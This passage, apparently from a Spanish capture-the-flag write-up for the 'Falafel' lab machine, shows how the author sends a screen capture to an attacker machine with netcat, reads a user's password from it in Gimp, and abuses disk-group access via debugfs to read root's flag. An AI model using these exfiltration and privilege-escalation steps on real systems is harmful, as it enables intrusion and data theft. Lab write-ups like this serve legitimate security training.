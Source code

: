 1. Enviamos la captura a nuestra maquina de atacante

    - en la maquina de atacante

        ```bash
        nc -nlvp 443 > Captura
        ```

    - en la maquina victima

        ```bash
        nc 10.10.14.15 443 < Captura
        ```

1. Abrimos la captura con Gimp

    - Aun que la apertura del fichero a fallado le damos al menu Archivo > Abrir 
    - Seleccionamos el typo de archivo Datos de imagen en bruto

        ```{r, echo = FALSE, fig.cap="Gimp - Archive brute data", out.width="90%"}
        knitr::include_graphics("images/Falafel-open-capture.png")
        ```

    - Entramos la proporciones de la virtual_size

Aqui podemos ver la contraseña del usuario yossi. Cambiamos de usuario con el comando `su yossi`.

Desde aqui volmemos a intentar a rootear la maquina desde el usuario yossi.

```bash
sudo -l
id
```

Como otra vez un grupo, en este caso el grupo disk nos llama la atencion, volmemos a hacer lo mismo con el listeo de ficheros de cada grupo

```bash
for group in $(groups); do echo -e "\n[+] Listando archivos del sistema con grupo $group asignado:\n"; find / \-group $group 2>/dev/null; done
```

Aqui vemos que `/dev/sda1` es parte del grupo disk. Si le hacemos un ``ls -l /dev/sda1` podemos ver que el grupo disk tiene derecho de escritura. 
Controlamos si estamos en `/dev/sda1` con el comando `fdisk -l` y vemos que es el disco con 7G (El mas grande = el disco en uso).

Siendo del grupo disk, nos permite abrir la utilidad `debugfs` que nos permite manejar utilidades del disco como root.

```bash
debugfs /dev/sda1
pwd
ls
cd /root
pwd
cat root.txt
```

Aqui podemos ver la flag, pero nosotros queremos ser root. Continuamos
